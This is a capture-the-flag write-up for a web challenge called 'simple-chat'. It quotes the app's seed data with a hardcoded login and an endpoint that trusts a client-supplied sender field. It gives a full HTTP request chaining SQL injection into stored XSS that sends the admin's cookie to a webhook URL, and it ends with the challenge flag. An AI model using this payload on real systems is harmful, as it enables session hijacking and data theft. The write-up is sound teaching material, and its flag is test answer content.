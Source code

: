 # simple-chat

## Category: Web Exploitation 🕸️

![img](./desc.png)

## Description: 
>Simple web application to chat with your friends! Sometimes it does funny things and it's ok like that

## Walkthrough
Analyse code to get kekw's credentials (db.js), then login:

```javascript
//snippet from db.js
INSERT INTO users(username,password) VALUES 
                        ('admin','${ADMIN_PASSWORD}'),
                        ('Val','${crypto.randomBytes(16).toString("hex")}'),
                        ('augusto','${crypto.randomBytes(16).toString("hex")}'),
                        ('CubikMan47','${crypto.randomBytes(16).toString("hex")}'),
                        ('LolLo','${crypto.randomBytes(16).toString("hex")}'),
                        ('Hiipso','${crypto.randomBytes(16).toString("hex")}'),
                        ('FTW','${crypto.randomBytes(16).toString("hex")}'),
                        ('kekw','kekw');
```

![img](./chat.png)

Analyse weaknesses in this code, find out that anyone can send chat to any user easily if the user is set to kekw (no sanitization).

>"The code validates the sender field value but doesn't verify that your authenticated session matches that sender. So any logged-in user can set sender: 'kekw' and bypass the restrictions.
>
>This allows the SQL injection attack to work because kekw is a trusted sender that can message anyone, including injecting malicious payloads that will be seen by the admin."

```javascript
//snippet from app.js
app.post('/api/v1/insertChat',async (req,res) => {
  const sender = req.body.sender;
  const receiver = req.body.receiver;
  var message = req.body.message;

  if(!FRIENDS.includes(sender) && sender !== 'admin' && sender !== 'kekw'){
    res.json({'status':"you can't write messages on behalf of other people."})
    return
  }

  if(!FRIENDS.includes(receiver) && receiver !== 'admin' && receiver !== 'kekw') {
    res.json({'status':"you can't write to nobody"})
    return;
  }

  //no XSS
  message = message.replaceAll('<','&lt;');
  message = message.replaceAll('>','&gt;');

  const result = await db.insertChat(sender,receiver,message);
  if(result != 0){
    res.json({'status':"Couldn't insert the chat."});
    return;
  }
  const response = {'status':'Success'};
  res.json(response);
})
```

## Solution

Inject the SQL injection payload which able to bypasses the XSS filter (<> change to chr(60) and chr(61)) using Burp Repeater, make sure to replace the webhook link with your url.

```bash
POST /api/v1/insertChat
Content-Type: application/json

{
    "sender": "kekw",
    "receiver": "augusto", 
    "message": "aaa'); INSERT INTO chat(sender,receiver,message) VALUES ('FTW','admin', CHR(60) || 'img src=x onerror=fetch(`https://webhook.site/YOUR-WEBHOOK-ID?cookie=`+document.cookie) /' || CHR(62));--"
}
```

After that, trigger the admin bot by sending the request to:

```bash
GET /ping?friend=FTW
```

Then, wait and check your webhook for the flag

![img](./flag.png)

## 🏳️Flag
>corn{d0ubl3_uns4n1t1z4tion_d4mnnnn_fb13bde70abb0787}
